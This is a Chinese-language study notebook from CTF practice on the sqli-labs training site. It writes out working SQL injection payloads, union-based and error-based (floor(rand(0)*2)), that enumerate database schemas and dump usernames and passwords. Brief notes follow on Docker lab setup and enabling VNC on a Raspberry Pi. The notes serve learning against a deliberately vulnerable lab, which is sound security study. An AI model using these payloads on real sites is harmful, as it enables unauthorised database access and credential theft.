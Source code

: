 # Day3+4  
## 2019/07/10+11
### docker部署lnmp
`sudo docker search ctftraining`  
`sudo docker pull ctftraining/base_image_nginx_mysql_php_73`  
`sudo docker run -dt --name lnmp -p 236:80 --rm ctftraining/base_image_nginx_mysql_php_73`  
嗯  

### sqli-labs 1  
payload:`?id=1' order by 3 --+`   
order by查列（还是字段数），`order by 4`则回显不正常  

payload:`?id=999' union select 1,2,3 --+`  

，发现页面先输出了2和3，说明页面有2个显示位   

然后利用sql查询语句依次爆破出数据库内的数据库名，表名，列名，字段信息  

payload:`?id=999' union select 1,(select_group_concat(schema_name) from information_schema.schemata),3 --+`  

loginname的地方就会显现数据库名  

其中就有一个叫做security的库  

然后把3所在的地方改成`(select group_concat(table_name) from information_schema.tables where table_schema='security')` 

用于查询security内的所有表名  

完整payload:id=999`union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security') --+`   

payload:`select group_concat(column_name) from information_schema.columns where table_name='users'   `


爆出users表下所有列   

payload:  

`select group_concat(password) from security.users`    

`select group_concat(username) from security.users`  

查询密码跟用户名  

`group_concat(table_name) from information_schema.tables where table_schema=database()%23`  

查表名    

### sqli-labs3  

payload:`?id=777')`  

用括号使语句闭合以后再进行注入 


### sqli-labs5

盲注第一篇，琢磨了许久……

主要来自：https://www.freebuf.com/column/158705.html



总之这道题既可以报错盲注又可以布尔盲注

接下来会用到的几个函数

`Count()`计算总数

`Concat()`连接字符串

`Floor()`向下取整数

`Rand()`产生0～1的随机数

`rand(0)`序列是011011  


--------
  
  
`select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;`  
上面的这条SQL将报错: Duplicate entry '1' for key 'group_key'
如下图

![img1](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/1.png)

原因：  

rand(0)是把0作为生成随机数的种子。首先明确一点，无论查询多少次，无论在哪台MySQL Server上查询，连续rand(0)生成的序列是固定的。

![img2](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/2.png)

![img3](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/3.png)


--------

姿势如下：


`union select 1,count(*),concat(version(),floor(rand(0)*2))x from information_schema.columns group by x;–+`

version()可以替换为需要查询的信息。  

简化语句：  

①`union select 1,2,count(*)  from information_schema.columns group by concat(version(),floor(rand(0)*2));–+`

搞到库名  
![img4](https://raw.githubusercontent.com/largewaste/cqr/master/imgs(copied%20from%20other%20places)/4.png)  

②`Union select 1,count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 3,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x;--+`  
③`Union select 1,count(*),concat((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x;--+`

搞到表名+列名(跟之前的是一样的，名字是username和password)  

盗过来的脚本最好在linux上跑  



### VNC远程控制树莓派  
`sudo raspi-confi`  

选择`5 Interfacing Options`  

把vnc打开即可远程连接  


### 重置树莓派密码跟用户


